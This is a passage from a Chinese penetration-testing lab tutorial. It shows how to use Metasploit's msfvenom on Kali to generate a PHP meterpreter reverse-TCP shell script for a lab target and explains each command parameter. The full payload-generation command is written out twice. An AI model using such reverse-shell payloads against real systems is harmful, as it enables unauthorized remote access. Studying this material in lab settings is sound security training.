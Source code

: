 
### 4.3 攻击准备

启动环境之后我们便需要生成我们的攻击脚本了，在上一步中我们是提供了一个 php 的反弹 shell 脚本给大家，但是这样的脚本在不了解 php 的情况下，或者找不到类似的脚本的情况下就没办法了。

在 metasploit 为大家提供了一个 msfvenom 的工具，该工具就是利用现有的某块生成木马程序，在 2015 年 8 月之后便用该工具来替代 msfencoder 和 msfpayload。

有了它我们便可不用去熟悉 php、自己手写木马脚本了。

在 Kali 中我们使用该命令来生成木马程序：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```

在使用 msfvenom 的时候，必须使用 `-p` 参数来生成我们的攻击脚本，该参数的全程也就是 payload。后面紧接着就是使用的模块 reverser_tcp，该脚本属于 php 的攻击脚本，所以在 php/meterpreter 的路径中。`LHOST` 的参数设置的是 kali 本地 IP 地址，因为我们是使用的本地 msfconsole 来建立连接，当然若是我们的 MSF 在其他主机上我们同样可以填写其他的 IP 地址。`LPORT` 是本地主机中一个未被占用的空闲端口。`R >reverse_shell.php` 是将生成好的文本内容重定向输出到 reverse_shell.php 中，该文件若是不存在会自动生成。

该攻击的脚本原理很简单，就是通过让目标主机执行该脚本，通过该脚本向我们的主机发起连接请求，于此同时被我们监听该端口的程序捕捉到，然后便成功的建立连接，然后便远程登陆到 shell 中，就像 ssh 与 telnet 一般。

```
cd /var/www/html
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```

生成该脚本需要一定的时间，大概在 3-5 分钟左右，请大家耐心等待，若是有这样的信息输出表示成功：

![generate_payload](../imgs/wm_333.png)

在当前的目录中我们可以看到这个文件的存在：

![show_generate_php](../imgs/wm_334.png)

生成的脚本我们可以通过 `vim reverse_shell.php` 来查看一下生成的脚本：
